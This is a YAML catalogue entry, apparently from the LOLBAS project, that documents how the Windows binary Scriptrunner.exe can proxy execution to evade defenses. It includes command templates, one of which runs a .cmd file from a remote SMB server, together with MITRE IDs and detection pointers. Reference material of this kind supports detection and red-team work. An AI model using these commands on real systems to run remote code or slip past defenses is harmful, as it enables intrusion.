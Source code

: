 ```yaml
---
Name: Scriptrunner.exe
Description: Execute binary through proxy binary to evade defensive counter measures
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: Scriptrunner.exe -appvscript {PATH:.exe}
    Description: Executes executable
    Usecase: Execute binary through proxy binary to evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: EXE
  - Command: ScriptRunner.exe -appvscript {PATH_SMB:.cmd}
    Description: Executes cmd file from remote server
    Usecase: Execute binary through proxy binary from external server to evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: Remote
      - Execute: CMD
Full_Path:
  - Path: C:\Windows\System32\scriptrunner.exe
  - Path: C:\Windows\SysWOW64\scriptrunner.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_servu_susp_child_process.yml
  - IOC: Scriptrunner.exe should not be in use unless App-v is deployed
Resources:
  - Link: https://twitter.com/KyleHanslovan/status/914800377580503040
  - Link: https://twitter.com/NickTyrer/status/914234924655312896
  - Link: https://github.com/MoooKitty/Code-Execution
Acknowledgement:
  - Person: Nick Tyrer
    Handle: '@nicktyrer'
---
```

